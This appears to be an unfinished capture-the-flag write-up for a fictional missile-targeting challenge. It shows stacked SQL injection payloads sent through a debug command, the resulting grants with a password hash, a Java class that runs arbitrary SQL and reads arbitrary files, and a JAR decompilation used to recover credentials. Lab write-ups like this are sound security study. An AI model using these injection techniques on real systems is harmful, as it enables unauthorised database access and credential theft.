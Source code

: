 # Missile diversion
Using the same setup as the previous mission, I connected the tool to the 
missile targeting system 
(maltcp://10.1.1.2:1024/-11934085869maltcp://10.1.1.1:1026/missile-targeting-system).
After toying with it a little, I found out that the
debug-command has a vulnerability and you can inject SQL through it. Easiest
way to find out what's possible at this point is to show grants:

```SQL
OR 1 = 1; SHOW GRANTS;
```

This gave me the following to work with:

```bash
INFO: Debug action output: VERSION()OR 1 = 1: 1 | 
Grants for targeter@%: GRANT USAGE ON *.* TO `targeter`@`%` IDENTIFIED BY PASSWORD '*41E2CFE844C8F1F375D5704992440920F11A11BA' | 
Grants for targeter@%: GRANT SELECT, INSERT ON `missile_targeting_system`.`satellite_query` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`messaging` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`target_coordinates` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode_to_str` TO `targeter`@`%` | 
```

I was able to enumerate the DB a little bit with the given commands, but
the satellite_query table seems to be broken somehow. There was some other
useful info however:

```SQL
OR 1 = 1; SELECT * FROM missile_targeting_system.pointing_mode_to_str;
```

```bash
2024-01-03 01:21:03.604 esa.mo.nmf.apps.MissileTargetingSystemMCAdapter sqlDebug
INFO: Debug action output: VERSION()OR 1 = 1: 1 | 
id: 1 | numerical_mode: 0 | str_mode: Earth Point Mode | str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth. | 
id: 2 | numerical_mode: 1 | str_mode: Sun Point Mode | str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. | 
```

The error looked like this:

```SQL
OR 1 = 1; SELECT * FROM missile_targeting_system.satellite_query;
```

```java
import java.io.IOException;
import java.nio.charset.StandardCharsets;
import java.nio.file.*;
import java.util.stream.Collectors;
import java.util.stream.Stream;
import java.sql.*;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;
import com.google.gson.Gson;

public class SatelliteQueryFileFolderUtility implements Serializable {
    private String pathOrStatement;
    private boolean isQuery;
    private boolean isUpdate;

    public SatelliteQueryFileFolderUtility(String pathOrStatement, boolean isQuery, boolean isUpdate) {
        this.pathOrStatement = pathOrStatement;
        this.isQuery = isQuery;
        this.isUpdate = isUpdate;
    }

    public String getResults(Connection connection) {
        if (isQuery && connection != null) {
            if (!isUpdate) {
                try (PreparedStatement selectStmt = connection.prepareStatement(pathOrStatement);
                    ResultSet rs = selectStmt.executeQuery()) {
                    List<HashMap<String, String>> rows = new ArrayList<>();
                    while(rs.next()) {
                        HashMap<String, String> row = new HashMap<>();
                        for (int i = 1; i <= rs.getMetaData().getColumnCount(); i++) {
                            String key = rs.getMetaData().getColumnName(i);
                            String value = rs.getString(i);
                            row.put(key, value);
                        }
                        rows.add(row);
                    }
                    Gson gson = new Gson();
                    String json = gson.toJson(rows);
                    return json;
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            } else {
                try (PreparedStatement pstmt = connection.prepareStatement(pathOrStatement)) {
                    pstmt.executeUpdate();
                    return "SQL Update completed.";
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            }
        } else {
            Path path = Paths.get(pathOrStatement);
            try {
                if (Files.notExists(path)) {
                    return "Path does not exist.";
                } else if (Files.isDirectory(path)) {
                    // Use try-with-resources to ensure the stream is closed after use
                    try (Stream<Path> walk = Files.walk(path, 1)) { // depth set to 1 to list only immediate contents
                        return walk.skip(1) // skip the directory itself
                                .map(p -> Files.isDirectory(p) ? "D: " + p.getFileName() : "F: " + p.getFileName())
                                .collect(Collectors.joining("\n"));
                    }
                } else {
                    // Assume it's a readable file
                    return new String(Files.readAllBytes(path), StandardCharsets.UTF_8);
                }
            } catch (IOException e) {
                return "Error reading path: " + e.toString();
            }
        }
    }

    public String getpathOrStatement() {
        return pathOrStatement;
    }
}
```



This is where I decided to take a look at the files in the environment itself,
and I decompiled the missile targeting system with the command:

```bash
java -jar vineflower-1.9.3.jar missile-targeting-system-2.1.0-SNAPSHOT.jar
```

Surely enough, it contained the password and username for targeter. This is
where I got stuck however, and have yet to finish the rest of the puzzle.